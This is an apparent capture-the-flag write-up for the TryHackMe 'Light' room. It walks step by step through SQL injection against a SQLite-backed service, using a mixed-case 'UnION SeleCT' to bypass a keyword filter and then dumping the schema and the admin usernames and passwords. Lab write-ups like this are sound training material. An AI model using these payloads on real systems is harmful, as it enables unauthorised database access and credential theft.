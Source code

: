 # Light THM CTF Walkthrough

![Image](https://github.com/user-attachments/assets/5290634e-2fc4-4f83-92d2-a67e8a10efde) <br/>
Solving DAV TryHackMe Capture The Flag [Light TryHackMe Room](https://tryhackme.com/room/lightroom)

## Connect to the Database

rlwrap is used for better use of shell rather than base netcat listener.

```sh
rlwrap nc <URL> 1337
```

![Image](https://github.com/user-attachments/assets/9e04c1e0-c05e-4b3b-b940-a7f1ee0c5c13) <br/>

---

Passing ' to check for SQL Injection Vulnerability.

```sh
'
```

![Image](https://github.com/user-attachments/assets/fa1c9260-ad8b-4418-a7e8-8b84c3fe4585) <br/>

This site is injectable.

---

Attempting union injection.

```sh
' union
```

![Image](https://github.com/user-attachments/assets/d9f23ab2-f940-4633-96a5-97f09ac3c5ac) <br/>

It seems union and select terms are prohibited.

---

Playing with sentence case.

```sh
' UnION
```

![Image](https://github.com/user-attachments/assets/007872c6-637a-4d60-a0cb-386812ead888)

It Worked!

---

Trying union select 1 with the new command.

```sh
' UnION SeleCT 1 '
```

![Image](https://github.com/user-attachments/assets/f8d41a32-7514-482c-b776-f092c63b23b1) <br/>

---

Trying to find out sql version.

```sh
' UnION SeleCT version() '
```

![Image](https://github.com/user-attachments/assets/bae8cc21-7715-413b-8d33-97309c186303)

---

Let's try with sqlite_version since CTF name was "Light"

```sh
' UnION SeleCT sqlite_version() '
```

![Image](https://github.com/user-attachments/assets/f9395315-ffa7-47ba-94cb-65a7d4397506)

It Works

---

```sh
' UnION SeleCT group_concat(sql) from sqlite_master'
```

![Image](https://github.com/user-attachments/assets/25348212-c85d-41f7-8a8c-7d13c35f9c37)

---

```sh
' UnION SeleCT group_concat(username) from admintable '
```

```sh
' UnION SeleCT group_concat(password) from admintable '
```

![Image](https://github.com/user-attachments/assets/86f46714-7c41-4c0a-86bb-a67c2ef5126c) <br/>

---

